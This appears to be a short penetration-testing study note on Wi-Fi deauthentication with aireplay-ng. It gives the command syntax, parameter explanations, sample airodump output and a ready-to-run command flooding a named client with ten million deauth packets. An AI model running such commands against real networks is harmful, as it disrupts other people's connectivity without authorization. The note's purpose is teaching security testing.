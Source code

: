 - Disconnect any client from any network 
	- works on encrypted networks (WEP, WPA, WPA2).
	- No need to know the network key.
	- No need to connect to the network.

- Syntax
```bash
aireplay-ng --deauth [DeauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
```

- `DeauthPackets` : Number of deauthentication packets to be sent. Keep the number high so that the network remains disconnected for long time. 

- `NetworkMac` : `BSSID` of the wireless network which we are targeting. 
- `TargetMac` : Mac Address of the device connected to the `NetworMac`. We get this from the `STATION` column of [[Targeted Packet Sniffing]]. *`STATION` is basically the device MAC connected to the wireless network we are targeting*
- `Interface` : Our wireless adapter.

- Example 
```bash
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

F2:70:8A:BD:8C:7C  9A:9D:1F:DA:67:FC  -24    1e-24      1      531               
```

Inorder to run a deauthentication attack, we do, 

```bash
aireplay-ng --deauth 10000000 -a F2:70:8A:BD:8C:7C -c 9A:9D:1F:DA:67:FC wlan0
```

